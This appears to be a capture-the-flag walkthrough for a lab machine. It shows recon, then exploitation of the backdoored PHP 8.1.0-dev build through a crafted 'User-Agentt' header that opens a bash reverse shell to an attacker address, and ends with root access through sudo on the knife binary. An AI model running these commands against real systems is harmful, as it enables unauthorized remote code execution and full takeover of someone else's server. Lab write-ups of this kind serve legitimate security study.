





## Nmap Scan
---


The ```Nmap``` Scan reveals port 22 and 80 open both respectfully for ssh and HTTP with an ```Apache``` web server running on port 80

## HTTP
---


Browsing the web server we find an  Emergent Medical Idea application hosted on it, However when viewing the response to our request on ```Burp Suite``` we find something interesting.



the web server is running php version ```8.1.0-dev``` which has a ```RCE``` backdoor by the creator and one of the maintainers you can read about it here [Backdoor](https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)

we can exploit this by running the following commands , first we need to start a listener
```
nc -lvnp <PORT>
```
next we need to use the ```RCE backdoor``` to start a reverse shell
```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/<IP>/<PORT> 0>  
&1 '\");"
```


We get a shell and we can go ahead and get the ```User Flag```.

## Privilege Escalation
---
We first check if this user can run any scripts as ```Sudo``` without a password.

we find that user can run the ```/usr/bin/knife``` binary without a password which will be our route to escalation.

To exploit this binary we simply need to run the following command.
```
sudo knife exec --exec "exec '/bin/sh -i'"
```


Doing this we successfully get a shell as root and can get the final flag.